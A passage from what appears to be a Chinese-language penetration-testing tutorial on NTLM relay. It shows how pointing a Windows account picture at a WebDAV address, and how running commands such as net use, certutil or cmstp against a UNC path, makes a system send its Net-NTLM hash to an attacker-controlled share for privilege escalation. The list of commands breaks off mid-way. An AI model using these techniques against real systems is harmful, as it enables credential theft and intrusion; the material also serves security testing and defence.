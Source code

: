 ### 3.用户头像

适用于Windows 10/2016/2019

在更改账户图片处。

![image-20191125005509564](img/NTLM_RELAY_1_ANQUANKE/image-20191125005509564.png)

用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问172.16.100.180，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个可以用来提权。后面会详细讲。

## 0x02 系统命令携带UNC路径

这个比较鸡肋，都能执行命令了，干啥不行呢。但作为一种场景，也说明下。说不定有些限制的命令注入就是支持传进UNC路径呢。我平时在测试的时候一般都是用 `dir \\ip\xxx`来做测试的，很多cmd命令是支持传进UNC路径的，执行的时候我们就可以拿到用户的net-ntlm  hash了。至于有哪些命令。这篇文章总结了一些命令,总结得挺全面的。
[内网渗透——针对hash的攻击](https://www.anquanke.com/post/id/177123)

```cmd
> net.exe use \hostshare 
> attrib.exe \hostshare  
> bcdboot.exe \hostshare  
> bdeunlock.exe \hostshare  
> cacls.exe \hostshare  
> certreq.exe \hostshare #(noisy, pops an error dialog) 
> certutil.exe \hostshare  
> cipher.exe \hostshare  
> ClipUp.exe -l \hostshare  
> cmdl32.exe \hostshare  
> cmstp.exe /s \hostshare  
> colorcpl.exe \hostshare #(noisy, pops an error dialog)  
> comp.exe /N=0 \hostshare \hostshare  
> compact.exe \hostshare  
> control.exe \hostshare  
> convertvhd.exe -source \hostshare -destination \hostshare  
> Defrag.exe \hostshare  
> diskperf.exe \hostshare  
> dispdiag.exe -out \hostshare  
> doskey.exe /MACROFILE=\hostshare  
> esentutl.exe /k \hostshare  
> expand.exe \hostshare  
> extrac32.exe \hostshare  
> FileHistory.exe \hostshare #(noisy, pops a gui)  
> findstr.exe * \hostshare  
```